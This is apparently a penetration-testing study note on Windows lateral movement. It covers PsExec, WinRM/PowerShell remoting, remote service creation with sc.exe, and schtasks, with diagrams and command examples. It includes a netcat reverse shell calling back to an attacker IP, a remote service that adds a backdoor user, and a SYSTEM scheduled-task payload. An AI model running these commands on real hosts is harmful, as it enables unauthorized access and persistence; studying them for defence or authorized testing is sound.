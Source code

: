 # PSexec
- Ports: 445/TCP (SMB)
- Group: Administrators
1. Connects to Admin$ Share and uploads a service binary. PSexec uses `psexesvc.exe` 
2. Connect to the service control manager to create and run a service named PSEXESVC and associate the service binary with `C:\Windows\psexesvc.exe`.
3. Create some named pipes to handle stdin/stdout/stderr.
```mermaid
sequenceDiagram
	participant User
	participant Server
	User->>Server: 1. Upload a service executable
	Server->>User: 2. Create and execute service
	User->>Server: 3. Communication through \.\pipe\psexesvc
```

```powershell
# Sysinternal's PSExec
.\psexec64.exe \\<server> -u <username> -p <password> -i cmd.exe

# Impacket's PSexec
psexec.py <Username>@<server> cmd.exe
```
More about psexec [here](https://www.rapid7.com/blog/post/2013/03/09/psexec-demystified/)
# WinRM/Powershell Remoting
- Ports: 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- Group Required: Remote Management Users
- PsExec on steroids
- If Admin creds are used, we get a elevated shell on the remote machine (No UAC issues)
### One-to-One
- Interactive login to one machine
- Runs in a new process (wsmprovhost)
- State-full (persistent variables and state) using `New-PSSession`
- Commands:
	- `Enter-PSSession` : Enter interactive prompt on the target machine
	- `New-PSSession` : Returns sessions to create persistent environment.
```powershell
# Create interactive session using the current credentials
Enter-PSSession -ComputerName mymachine.domain.local

# Create session
$sess = New-PSSession -ComputerName mymachine.domain.local
$sess # holds the credentails and ohter information

# Enter-PSSession can be used to connnec to this session
Enter-PSSession -Session $sess

# Use Credentails to connect to the remote machine
# Creat PScredentails object that holds username and password
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
# Connect to the machine
Enter-PSSession -Computername TARGET -Credential $credential
```

### One-to-Many
- Also knows as fan-out remoting.
- Non Interactive
- Executes commands parallely.
- Commands:
	- `Invoke-Command` : Executes command on one more machine parallely.
- Run commands/scripts on:
	- one more more computers
	- disconnected session
	- as a background job
- Required administrative access on the target machine.
```powershell
# Execute Command
Invoke-Command -ComputerName mycomputer.mydomain.local -ScriptBlock {whoami}

# Execute a fiile
Invoke-Command -ComputerName mycomputer.mydomain.local -FilePath .\Temp.ps1

# Can also run local functions on the target machine
Invoke-Command -ComputerName mycomputer.mydomain.local -ScriptBlock ${function:mylocalfunction}

# Can also use already created session from New-PSSession
Invoke-Command -FilePath C:\script.ps1 -Session $session
```
### CMD Command
```cmd
winrs.exe -u:<username> -p:<password> -r:<server> cmd
```
# Sc
-   **Ports:**
    -   135/TCP, 49152-65535/TCP (DCE/RPC)
    -   445/TCP (RPC over SMB Named Pipes)
    -   139/TCP (RPC over SMB Named Pipes)
-  Group: Administrators
Windows services can also be leveraged to run arbitrary commands since they execute a command when started. While a service executable is technically different from a regular application, if we configure a Windows service to run any application, it will still execute it and fail afterwards.

We can create a service on a remote host with sc.exe, a standard tool available in Windows. When using sc, it will try to connect to the Service Control Manager (SVCCTL) remote service program through RPC in several ways:

1.  A connection attempt will be made using DCE/RPC. The client will first connect to the Endpoint Mapper (EPM) at port 135, which serves as a catalogue of available RPC endpoints and request information on the SVCCTL service program. The EPM will then respond with the IP and port to connect to SVCCTL, which is usually a dynamic port in the range of 49152-65535.
```mermaid
sequenceDiagram
	participant Client as Client
	participant EPM as End Point Mapper (PORT 135)
	Client->>EPM: Where is SVCCTL?
	EPM->>Client: SVCCTL is at port 40345
```

```mermaid
sequenceDiagram
	participant Client as Client
	participant svc as SVCCTL (PORT 40345)
	Client->>svc: rpcbind to SVCCTL
```
2. If the above process failes sc with reach SVCCTL via SMB named pipes on port 445 (SMB) or port 135 (SMB over NETBIOS)
```mermaid
sequenceDiagram
	participant Client
	participant SMB
	Client->>SMB: Bind to known pipe \pipe\svcctl [IPC$]
```
```powershell
# Create a service
sc.exe \\<server> create MyService binpath= "net user drdragon Banana79 /add" start= auto

# start the service
sc.exe \\<server> start MyService

# Stop the service
sc.exe \\<server> stop MyService

# Delete the Service
sc.exe \\<server> delete MyService
```
- the `sc.exe` command should be run with `runas.exe /netonly` so that the service is created with the admin's credentials.
```powershell
# Get a reverse shell with leonards's access token.
runas /netonly /user:ZA\admin_leonard.summers "c:\tools\nc64.exe -e cmd.exe <myIP> 4443"

# Can catch with 
nc -nvlp 4443
# now we can schedule tasks with admin's privs
```

# schtasks.exe
- Remotely schedule tasks.
```powershell
# Create a task
schtasks.exe /s <server> /ru "SYSTEM" /create /tn "mytask" /tr "command/payload" /sc ONCE /sd 01/01/1970 /st 00:00

# Run the task
schtasks.exe /s <server> /run /tn "mytask"

# Delete the task
schtasks.exe /s <server> /tn "mytask" /delete /f
```
